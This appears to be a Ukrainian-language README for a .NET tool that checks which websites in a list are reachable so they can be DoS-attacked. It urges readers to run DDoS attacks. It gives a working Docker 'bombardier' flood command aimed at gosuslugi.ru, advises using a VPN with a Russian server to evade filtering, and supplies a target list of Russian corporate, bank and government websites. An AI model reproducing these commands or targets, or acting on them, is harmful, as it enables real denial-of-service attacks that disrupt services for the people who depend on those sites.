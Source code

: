 # DOS рашистів
Програма для пошуку веб адрес у текстовому файлі і перевірці їх на доступність.
Доступні адреси можуть використовуватись для DOS атак. Успішний HTTP (код >= 200) означає доступний сайт, який можна атакувати. Будь яка помилка означає недоступний сайт, що лежить. Такі сайти атакувати не варто, так як вони вже не функціонують.

## Вимоги
Для роботи необхідний .NET 6 framework.
https://dotnet.microsoft.com/en-us/download/dotnet/6.0

Щоб зкомпілювати програму запустіть в терміналі команду
```
dotnet build .\CheckSitesAvailablity\CheckSitesAvailablity.csproj
```

## Приклад використання
Щоб викнати програму запустіть в терміналі команди:

```powershell
cd .\CheckSitesAvailablity\bin\Debug\net6.0\
.\CheckSitesAvailablity.exe "d:\web_sites.txt"
```

Програма буде шукати адреси веб сайтів, видаляти дублікати і перевіряти на доступність. Доступні сайти можна атакувати. Якщо сайт недоступний, можливо він вже був успішно атакований іншими ентузіастами.

## Інструкція по DOS атаці

Ви можете використовувати ваш комп'ютер як зброю, роблячи ДДОС атаки!

Ось інструкція, як це можна зробити:
- [завантажити Докер](https://www.docker.com/get-started) (можна десктоп)
- і в терміналі написати `docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru` де в кінці ви міняєте сайт на один зі списку

Вікон термінала може бути безліч.

Краще атакувати рашистьскі сайти через VPN, використовуючи сервер в росії, тому що рашистські сайті можуть фільтрувати запити з іноземних адрес.

Приклад файлу з веб адресами. Збережіть цей текст у файл `web_sites.txt` і скористайтесь командою наведеною вище.

```
Бизнес-корпорации
Газпром - https://www.gazprom.ru (https://www.gazprom.ru/)/ 
Лукойл - https://lukoil.ru (https://lukoil.ru/)
Магнит - https://magnit.ru (https://magnit.ru/)/
Норильский никель - https://www.nornickel.com (https://www.nornickel.com/)/
Сургетнефтегаз - https://www.surgutneftegas.ru (https://www.surgutneftegas.ru/)/
Татнефть - https://www.tatneft.ru (https://www.tatneft.ru/)/
Евраз - https://www.evraz.com/ru (https://www.evraz.com/ru/)/
НЛМК - https://nlmk.com (https://nlmk.com/)/
Сибур Холинг - https://www.sibur.ru (https://www.sibur.ru/)/
Северсталь - https://www.severstal.com (https://www.severstal.com/)/
Металлоинвест - https://www.metalloinvest.com (https://www.metalloinvest.com/)/
ННК - https://nangs.org (https://nangs.org/)/
Русская медная компания - https://rmk-group.ru/ru (https://rmk-group.ru/ru/)/
ТМК - https://www.tmk-group.ru (https://www.tmk-group.ru/)/
Яндекс - https://ya.ru (https://ya.ru/)/
Polymetal International - https://www.polymetalinternational.com/ru (https://www.polymetalinternational.com/ru/)/
Уралкалий - https://www.uralkali.com/ru (https://www.uralkali.com/ru/)/
Евросибэнерго - https://www.eurosib.ru (https://www.eurosib.ru/)/
ОМК - https://omk.ru (https://omk.ru/)/

Банки
Сбербанк - https://www.sberbank.ru (https://www.sberbank.ru/)
ВТБ - https://www.vtb.ru (https://www.vtb.ru/)/
Газпромбанк - https://www.gazprombank.ru (https://www.gazprombank.ru/)/

Государство
Госуслуги - https://www.gosuslugi.ru (https://www.gosuslugi.ru/)/
Госуслуги Москвы - https://www.mos.ru/uslugi (https://www.mos.ru/uslugi/)/
Президента РФ - http://kremlin.ru (http://kremlin.ru/)/
Правительства РФ - http://government.ru (http://government.ru/)/
Министерство обороны - https://mil.ru (https://mil.ru/)/
Налоговая - https://www.nalog.gov.ru (https://www.nalog.gov.ru/)/
Таможня - https://customs.gov.ru (https://customs.gov.ru/)/
Пенсионный фонд - https://pfr.gov.ru (https://pfr.gov.ru/)/
Роскомнадзор - https://rkn.gov.ru (https://rkn.gov.ru/)/
```
